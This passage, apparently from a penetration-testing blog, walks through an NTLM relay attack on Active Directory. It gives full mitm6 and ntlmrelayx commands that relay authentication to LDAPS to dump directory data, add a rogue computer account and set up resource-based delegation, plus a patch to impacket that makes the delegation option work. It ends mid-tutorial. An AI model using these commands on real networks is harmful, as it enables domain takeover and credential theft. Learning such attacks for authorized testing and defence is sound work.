 ```  
Bear in mind that assigning IPv6 addresses to DCs and Exchange servers might disrupt their functions. When you have them on your subnet as well, you might also want to give the blacklist options of mitm6 a go, as they enable you to exclude domains or FQDNs. If you and the customer agreed on also attacking these machines, mitm6 was designed to only supply very short lease times and TTLs, so that very close to when you stop the attack everything will come back to normal functioning.  

<img src="/images/2021-02-02/mimt6start.png">  

Next fire up ntlmrelay:  
```
python3 ntlmrelayx.py -ip 10.55.0.30 -wh evilwpad -t ldaps://10.55.0.1
```  
```-ip``` is the interface you want the relay to run on  
```-wh``` is for WPAD host, specifying your wpad file to serve  
```-t``` is the target where you want to relay to. In this case I choose to simply query ldap for all the juicy info -> will produce a lot of files for computer, users, policies, groups and trust  

<img src="/images/2021-02-02/mitm6ntlmrelayldap.png">  

<img src="/images/2021-02-02/loot.png">  

There are several other scenarios for the ntlmrelay where you can e.g. directly add a new computer object(```--add-computer```) via ldaps to the AD either using this to run bloodhound queries against the AD or by directly granting it delegation rights (```--delegate-access```) and do a resource based delegation attack: [Dirk´s blog](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/).  

#### Adding a resource  

Adding just a resource to later have valid credentials for the AD

```
python3 ntlmrelayx.py -ip 10.55.0.30 -wh evilwpad -t ldaps://10.55.0.1 --add-computer
```

<img src="/images/2021-02-02/addingcomputertoad.png">  

#### Resource based delegation attack  

**HINT:** In order to get the ```--delegate-access``` working correctly I had to do the following modifications to the ```targetsutils.py``` located under ```impacket/impacket/examples/ntlmrelayx/utils```:  

Comment out line 136 and change 141 from .pop() to \[0\] - also see [issue914](https://github.com/SecureAuthCorp/impacket/issues/914):  

```python
136            #            self.generalCandidates.remove(target)
137                        return target
138                LOG.debug("No more targets for user %s" % identity)
139               return None
140            else:
141                return self.generalCandidates[0]

```
Now we can run our attack:  
